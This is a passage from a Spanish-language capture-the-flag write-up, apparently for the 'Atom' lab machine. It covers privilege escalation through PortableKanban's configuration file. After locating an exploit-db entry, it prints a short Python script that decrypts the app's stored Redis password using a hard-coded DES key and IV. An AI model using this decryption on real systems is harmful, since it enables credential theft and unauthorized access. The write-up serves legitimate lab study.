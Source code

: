 ## Escalada de privilegios

KanBan en pocas palabras, es un gestor de tareas a través de un tablero. Permite realizar flujos de trabajo, etc. Parecido a Trello, no sé si lo conocéis...

Viendo los archivos, nos llaman la atención 2 de ellos:

- PortableKanban.cfg
- PortableKanban.pk3.lock

```bash
C:\Users\jason\Downloads\PortableKanban> type PortableKanBan.pk3.lock
{"MachineName":"ATOM","UserName":"jason","SID":"S-1-5-21-1199094703-3580107816-3092147818-1002","AppPath":"C:\\Users\\jason\\Downloads\\PortableKanban\\PortableKanban.exe"}

C:\Users\jason\Downloads\PortableKanban> type PortableKanBan.cfg
{"RoamingSettings":{"DataSource":"RedisServer","DbServer":"localhost","DbPort":6379,"DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb","DbServer2":"" [...]
```

Interesante, tenemos lo que parece ser una contraseña cifrada y que hace referencia a **Redis**, el cual hemos enumerado anteriormente con NMAP y que se encuentra en el puerto 6379 y está público.

Como no sabemos hasta el momento como decodear la contraseña, búscamos en google para ver que encontramos. Llegamos a exploit-db, lo cual es lo mismo que searchploit:

```bash
> searchsploit kanban
------------------------------------------------------------------------ ---------------------------------│
 Exploit Title                                                          |  Path                           │
------------------------------------------------------------------------ ---------------------------------│
PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval            | windows/local/49409.py          │
------------------------------------------------------------------------ ---------------------------------
```

Movemos el script de python a nuestro directorio. Visuzalizamos, ejecutamos y no funciona...Perfecto.

Bueno, modificando un poco el código del script y quedándonos únicamente con el contenido de la función decode(), tendremos lo siguiente:

```bash
> cat -p portable_kanban.py 

import json
import base64
from des import * #python3 -m pip install des
import sys

hash = 'Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb'

hash = base64.b64decode(hash.encode('utf-8'))
key = DesKey(b"7ly6UznJ")
print("Password: " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
```
